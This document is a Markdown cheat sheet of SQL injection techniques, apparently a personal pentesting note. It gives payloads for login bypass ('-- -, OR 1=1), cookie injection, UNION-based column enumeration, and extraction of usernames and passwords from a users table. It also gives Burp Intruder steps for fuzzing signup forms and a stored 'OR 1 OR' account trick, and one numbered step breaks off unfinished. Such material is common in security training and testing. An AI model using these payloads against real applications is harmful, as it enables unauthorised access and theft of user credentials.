


# SQL INJECTION

1.  Look for SQL injection points:  
    In **UPDATE** statements, within the updated values or the WHERE clause.  
    `update users SET username='root',password='pass123' where username='admin';`  
    In **INSERT** statements, within the inserted values.  
    `insert into users (username,password) values ('bob','password123');`  
    In **SELECT** statements, within the table or column name.  
    In **SELECT** statements, within the ORDER BY clause.  
    `select * from users where username='admin';`  
    `select * from users where username != 'admin';`  
    `select * from users where username like '%admin%';`  
    https://portswigger.net/web-security/sql-injection/cheat-sheet

Try:  
`'` then `''`  
Use comments to exclude remaining part of query  
`'-- -`  
For MySQL add space after --  
`'-- -`  
`/*comment*/`  
`#comment`  
`'+OR+1=1-- -` or `' OR 1=1-- -`  
(Take care when injecting 1=1 ,in case it reaches an UPDATE or DELETE statement)

On Login entries:  
`administrator'-- -`
On cookies:
`Cookie: TrackingId='-- -`

2.  Check for **UNION** statements  
    `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`  
    `' UNION SELECT username, password FROM users-- -`

- Number of columns must match  
    `' ORDER BY 1-- -`  
    `' ORDER BY 2-- -`  
    `' ORDER BY 3-- -`  
    etc.  
    OR  
    `' UNION SELECT NULL-- -`  
    `' UNION SELECT NULL,NULL-- -`  
    `' UNION SELECT NULL,NULL,NULL-- -`  
    etc.  
    For **Oracle**, use `' UNION SELECT NULL FROM DUAL--`
    
- Columns must match same data type  
    Check for a column that can host string data  
    `' UNION SELECT 'a',NULL,NULL,NULL-- -`  
    `' UNION SELECT NULL,'a',NULL,NULL-- -`  
    `' UNION SELECT NULL,NULL,'a',NULL-- -`  
    `' UNION SELECT NULL,NULL,NULL,'a'-- -`  
    `' UNION SELECT NULL,NULL,NULL,'a'-- -`
    

If only 1 table to retrieve data, then  
`' UNION SELECT username || password FROM users-- -`  
`' UNION SELECT username || '~' || password FROM users-- -`

3.  Find the database version, run a UNION select query with

## Payloads for Signup pages

1.  Grab the create login payload with Burp and send to Intruder:

2.  **Clear** any payloads, and **Add** a payload marker for **Username**, **Password**, **Confirm Password**
    
3.  Add SQL injection payloads:  
    Payloads can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/SQL-Injection)  
    
    

## Signin pages

1.  Create an account called **'OR 1 OR'** , with password **'OR 1 OR'**
2.  Login with account